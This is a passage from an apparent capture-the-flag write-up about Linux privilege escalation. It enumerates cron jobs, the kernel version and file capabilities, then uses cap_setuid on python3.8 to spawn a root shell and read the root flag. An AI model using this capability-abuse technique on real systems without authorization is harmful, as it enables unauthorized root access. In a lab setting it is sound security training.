 Then first to use automated tools like as Linpeas, and remembering the hint of the question, i want to try to execute some useful commands:

```bash
crontab -l
cat /proc/version
getcap -r /2>/dev/null
```

<div align="left"><figure><img src="../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure></div>

checking cronjobs, potential kernel version and [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html), we got an interesting output from linux capabilities only, so let's go ahead with that!&#x20;

Analyzing the first string of this output: `/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` we observe the presence of '[cap\_setuid](https://man7.org/linux/man-pages/man2/setuid.2.html)', therefore the capabily to elevate privileges to the python interpreter.&#x20;

<figure><img src="../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
/usr/bin/python3.8
{% endhint %}

### 3.2 - Submit the flag located in root's home directory.

The goal is to set our setuid to 0 (root user), let's proceed.

We can change it directly on victim machine and executing OS commands via python3.8 interpreter: `usr/bin/python3.8`

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

and after setting uid to 0 we obtain root permission!

<div align="left"><figure><img src="../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure></div>

we complete by heading to the root folder to capture the root.txt flag: `cat /root/root.txt`

<details><summary>🚩 Flag 2 (root.txt)</summary></details>

<div align="left"><figure><img src="../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure></div>
